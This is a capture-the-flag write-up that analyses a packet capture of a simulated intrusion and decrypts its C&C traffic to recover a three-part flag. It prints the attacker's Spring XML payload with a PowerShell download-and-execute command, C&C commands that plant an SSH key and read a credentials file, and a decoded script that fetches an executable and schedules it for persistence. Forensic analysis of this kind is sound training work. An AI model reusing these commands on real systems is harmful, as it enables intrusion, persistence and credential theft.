



# HTB Cyber Apocalypse 2024: Hacker Royale - Data Siege

## Challenge

> It was a tranquil night in the Phreaks headquarters, when the entire district erupted in chaos. Unknown assailants, rumored to be a rogue foreign faction, have infiltrated the city's messaging system and critical infrastructure. Garbled transmissions crackle through the airwaves, spewing misinformation and disrupting communication channels.<br>
We need to understand which data has been obtained from this attack to reclaim control of the and communication backbone.<br>
Note: flag is splitted in three parts.

## Metadata

- Difficulty: medium
- Creator: `Nauten`
- Files: [`capture.pcap`](capture.pcap)
- Docker: no
- Tags: `pcap`, `wireshark`, `c#`, `powershell`, `c&c`, `encryption`
- Points: `300`
- Number of solvers: 

## Solution

### Initial analysis

If we open the PCAP file with WireShark and start to analyze the TCP streams, there are three interesting: stream 3, stream 4 and stream 5.

The 3rd stream is an HTTP GET request possibly sent by a Java client application and the response is an XML file containing a `bean` which basically executes a PowerShell command.

```http
GET /nBISC4YJKs7j4I HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/11.0.19
Host: 10.10.10.21:8080
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.1 200 OK
Content-Type: application/xml
Connection: Keep-Alive
Pragma: no-cache
Server: Apache
Content-Length: 651

<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="WHgLtpJX" class="java.lang.ProcessBuilder" init-method="start">
  <constructor-arg>
    <list>
      <value>cmd.exe</value>
      <value>/c</value>
      <value><![CDATA[powershell Invoke-WebRequest 'http://10.10.10.21:8000/aQ4caZ.exe' -OutFile 'C:\temp\aQ4caZ.exe'; Start-Process 'c:\temp\aQ4caZ.exe']]></value>
    </list>
  </constructor-arg>
</bean>
</beans>
```

The PowerShell command downloads an executable and executes it:

```powershell
powershell Invoke-WebRequest 'http://10.10.10.21:8000/aQ4caZ.exe' -OutFile 'C:\temp\aQ4caZ.exe'; Start-Process 'c:\temp\aQ4caZ.exe
```

In stream 4, we can see the downloaded executable:

```http
GET /aQ4caZ.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.316
Host: 10.10.10.21:8000
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.12.1
Date: Thu, 29 Feb 2024 10:12:27 GMT
Content-type: application/x-msdownload
Content-Length: 29184
Last-Modified: Tue, 27 Feb 2024 20:21:52 GMT

MZ.
[...]
```

The executable file can be exported using WireShark `File -> Export Objects -> HTTP...`



Stream 5 seems to be an encrypted C&C communication between the victim client and the server. We might need to understand the inner workings of the executable.



### Reverse engineering

The executable is a `.Net assembly` ([`aQ4caZ.exe`](files/aQ4caZ.exe)):
```
$ file aQ4caZ.exe
aQ4caZ.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

We can analyse the file in `ILSpy`, `dnSpy` or `dotPeek`.



To encrypt the communication it generates 32-byte key and a 16-byte IV using PBKDF2 (`System.Security.Cryptography.Rfc2898DeriveBytes`) from a hardcoded salt (`[86,101,114,121,95,83,51,99,114,51,116,95,83]`). We can basically copy the relevant parts of the decompiled code and print out the generated key and IV.

```csharp
using System;
using System.Security.Cryptography;
					
public class Program
{
	public static void Main()
	{
		String encryptKey = "VYAemVeO3zUDTL6N62kVA";
		Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[]{86,101,114,121,95,83,51,99,114,51,116,95,83});
		byte[] key = rfc2898DeriveBytes.GetBytes(32);
		byte[] iv = rfc2898DeriveBytes.GetBytes(16);
		Console.WriteLine("Key: " + BitConverter.ToString(key).Replace("-", string.Empty));
		Console.WriteLine("IV: " + BitConverter.ToString(iv).Replace("-", string.Empty));
		Console.WriteLine("Salt: " + BitConverter.ToString(rfc2898DeriveBytes.Salt).Replace("-", string.Empty));
		Console.WriteLine("Iteration: " + rfc2898DeriveBytes.IterationCount);
		Console.WriteLine("HashAlgorithm: " + rfc2898DeriveBytes.HashAlgorithm);
	}
}
```

### Decryption

We can decrypt the communication using the following parameters with CyberChef:
- AES-CBC
- Key: `6BA1212A949C3526831A24A04FAC7ED1A0E8D52C7C20C5EE453EDF21963E6427`
- IV: `E5E116E034810272092895C488D34FA7`

To decrypt the server messages we just have to remove the number from the beginning (which is the length of the payload) and the `.` delimiter.

```
getinfo-0
infoback;0;10.10.10.22|SRV01|SRV01\svc01|Windows 10 Enterprise Evaluation|0.1.6.1

procview;
procview;svchost¦2060;svchost¦5316;ApplicationFrameHost¦4920;csrss¦388;svchost¦1372;svchost¦832;VBoxTray¦2748;fontdrvhost¦684;services¦576;svchost¦3528;lsass¦584;svchost¦6872;svchost¦1552;spoolsv¦1748;VBoxService¦1156;svchost¦760;conhost¦4108;svchost¦1152;dllhost¦6864;svchost¦2528;svchost¦1936;Memory Compression¦1428;RuntimeBroker¦4692;svchost¦4112;svchost¦1932;svchost¦748;smss¦284;svchost¦1140;svchost¦6852;svchost¦2320;MicrosoftEdge¦5076;svchost¦1332;svchost¦740;svchost¦3888;conhost¦4896;dwm¦340;java¦6052;svchost¦928;svchost¦3488;YourPhone¦1320;svchost¦1516;dllhost¦4204;SearchUI¦4664;svchost¦328;winlogon¦524;SgrmBroker¦6628;svchost¦2096;svchost¦1504;cmd¦2488;svchost¦1304;NisSrv¦2336;MicrosoftEdgeSH¦5636;svchost¦1104;browser_broker¦4592;svchost¦1100;svchost¦5284;explorer¦4052;svchost¦1164;svchost¦2076;svchost¦1680;aQ4caZ¦7148;svchost¦692;svchost¦100;dumpcap¦3516;MsMpEng¦2260;RuntimeBroker¦4820;svchost¦1272;Microsoft.Photos¦6392;svchost¦3436;fontdrvhost¦676;cmd¦84;taskhostw¦3628;RuntimeBroker¦6188;RuntimeBroker¦1384;java¦7028;MicrosoftEdgeCP¦5592;svchost¦1256;svchost¦3816;csrss¦464;Registry¦68;sihost¦3416;SecurityHealthSystray¦3156;svchost¦6368;svchost¦6564;wininit¦456;ctfmon¦3940;svchost¦1636;SecurityHealthService¦844;svchost¦1040;svchost¦2024;svchost¦6980;svchost¦1628;svchost¦1824;svchost¦1288;wlms¦2216;RuntimeBroker¦5564;svchost¦5364;svchost¦1620;svchost¦2012;svchost¦396;svchost¦6540;RuntimeBroker¦6780;WindowsInternal.ComposableShell.Experiences.TextInput.InputApp¦2200;svchost¦1604;svchost¦788;svchost¦1400;uhssvc¦6824;SearchIndexer¦5532;svchost¦4940;svchost¦3560;svchost¦1392;svchost¦1588;svchost¦1784;wrapper¦2176;svchost¦2568;ShellExperienceHost¦4536;System¦4;conhost¦2368;OneDrive¦1184;svchost¦1472;Idle¦0;

cmd;C:\;hostname
cmd;C:\;srv01

cmd;C:\;whoami
cmd;C:\;srv01\svc01

cmd;C:\;echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwyPZCQyJ/s45lt+cRqPhJj5qrSqd8cvhUaDhwsAemRey2r7Ta+wLtkWZobVIFS4HGzRobAw9s3hmFaCKI8GvfgMsxDSmb0bZcAAkl7cMzhA1F418CLlghANAPFM6Aud7DlJZUtJnN2BiTqbrjPmBuTKeBxjtI0uRTXt4JvpDKx9aCMNEDKGcKVz0KX/hejjR/Xy0nJxHWKgudEz3je31cVow6kKqp3ZUxzZz9BQlxU5kRp4yhUUxo3Fbomo6IsmBydqQdB+LbHGURUFLYWlWEy+1otr6JBwpAfzwZOYVEfLypl3Sjg+S6Fd1cH6jBJp/mG2R2zqCKt3jaWH5SJz13 HTB{c0mmun1c4710n5 >> C:\Users\svc01\.ssh\authorized_keys
cmd;C:\;

cmd;C:\;dir C:\Users\svc01\Documents
cmd;C:\; Volume in drive C is Windows 10
 Volume Serial Number is B4A6-FEC6

 Directory of C:\Users\svc01\Documents

02/28/2024  07:13 AM    <DIR>          .
02/28/2024  07:13 AM    <DIR>          ..
02/28/2024  05:14 AM                76 credentials.txt
               1 File(s)             76 bytes
               2 Dir(s)  24,147,230,720 bytes free


cmd;C:\;type C:\Users\svc01\Documents\credentials.txt
cmd;C:\;Username: svc01
Password: Passw0rdCorp5421

2nd flag part: _h45_b33n_r357

lsdrives
lsdrives;C:\|

lsfiles

lsfiles-C:\

lsfiles-C:\
lsfiles;C:\;$Recycle.Bin¦2|BGinfo¦2|Boot¦2|Documents and Settings¦2|PerfLogs¦2|Program Files¦2|Program Files (x86)¦2|ProgramData¦2|Recovery¦2|System Volume Information¦2|temp¦2|Users¦2|Windows¦2|bootmgr¦1¦408364|BOOTNXT¦1¦1|BOOTSECT.BAK¦1¦8192|bootTel.dat¦1¦80|pagefile.sys¦1¦738197504|swapfile.sys¦1¦268435456|									°99×\’¡©L'0¾ßïycle.Bin¦2|BGinfo¦2|Boot¦2|Documents and Settings¦2|PerfLogs¦2|Program Files¦2|Program Files (x86)¦2|ProgramData¦2|Recovery¦2|System Volume Information¦2|temp¦2|Users¦2|Windows¦2|bootmgr¦1¦408364|BOOTNXT¦1¦1|BOOTSECT.BAK¦1¦8192|bootTel.dat¦1¦80|pagefile.sys¦1¦738197504|swapfile.sys¦1¦268435456|

lsfiles-C:\temp\
lsfiles;C:\temp\;aQ4caZ.exe¦1¦29184|

upfile;C:\temp\4AcFrqA.ps1
powershell.exe -encoded "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA="
upfilestop;
```

#### First part of the flag

The first part of the flag is at the end of the SSH key: `HTB{c0mmun1c4710n5`

#### Second part of the flag

The second part of the flag is in the `credentials.txt` file: `_h45_b33n_r357`

#### Third part of the flag

The third part of the flag is not encrypted, just Base64 encoded, because the executable does not encrypt files which are downloaded to the client. This file is `4AcFrqA.ps1`.

The downloaded PowerShell file at the end of TCP Steam 5, the content of the file is:

```powershell
powershell.exe -encoded "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA="
```

```powershell
(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")

$action = New-ScheduledTaskAction -Execute "C:\Users\svc01\AppData\Roaming\4fva.exe"

$trigger = New-ScheduledTaskTrigger -Daily -At 2:00AM

$settings = New-ScheduledTaskSettingsSet

# 3th flag part:

Register-ScheduledTask -TaskName "0r3d_1n_7h3_h34dqu4r73r5}" -Action $action -Trigger $trigger -Settings $settings
```

So the third part of the flag is: `0r3d_1n_7h3_h34dqu4r73r5}`

### The Flag

Putting it all together.

Flag: `HTB{c0mmun1c4710n5_h45_b33n_r3570r3d_1n_7h3_h34dqu4r73r5}`